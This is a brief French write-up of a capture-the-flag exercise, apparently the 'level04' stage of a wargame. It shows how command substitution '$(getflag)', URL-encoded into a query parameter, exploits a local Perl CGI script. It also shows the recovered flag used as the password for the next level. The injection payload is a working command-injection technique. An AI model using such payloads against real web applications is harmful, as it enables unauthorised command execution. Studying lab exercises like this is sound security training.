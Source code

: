 ## 1. Accéder au script Perl via l'URL

    curl http://localhost:4747/level04.pl?x=test

Cela lance le script Perl et affiche test en console.

## 2. Exécuter une commande via injection dans l'URL

    curl http://localhost:4747/level04.pl?x=test%24%28getflag%29
    nb: %24%28getflag%29 = $(getflag)
    nb: http://localhost:4747/level04.pl?x="test$(getflag)" illegal characters detected
    Cela affiche: ne2searoevaevoem4ov4ar8ap

## 3. Connexion

su level05

    Mot de passe : ne2searoevaevoem4ov4ar8ap